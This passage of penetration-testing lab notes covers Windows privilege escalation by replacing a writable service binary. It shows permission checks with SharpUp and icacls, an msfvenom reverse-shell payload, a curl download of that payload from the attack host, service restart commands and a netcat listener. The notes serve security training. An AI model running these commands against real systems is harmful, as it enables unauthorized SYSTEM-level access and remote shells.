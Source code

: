*Check the netcat listener. All privileges will be enabled.*


## Weak Permissions

### Permissive File System ACLs

#### Running SharpUp
```PowerShell
.\SharpUp.exe audit
```
`DisplayName` will identify a binary (`Name`) to be executed when started

#### Checking Permissions with icacls
```PowerShell
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
We can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents

#### Replacing Service Binary
```cmd.exe
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

```cmd.exe
sc start SecurityService
```
This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

#### ***For lab:*

Created msfvenom payload:
```Shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.19 lport=4443 -f exe > SecurityService.exe
```

Moved the `SecurityService` executable to a different file name:
```cmd.exe
move "C:\Program Files (x86)\PCProtect\SecurityService.exe" "C:\Program Files (x86)\PCProtect\SecurityServices.exe"
```

Used cURL on PowerShell to download msfvenom payload to replace `SecurityService` executable in previous location:
```PowerShell
curl http://10.10.16.19:8000/SecurityService.exe -O "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Ran netcat listener on attack host:
```cmd.exe
nc -lnvp 4443
```
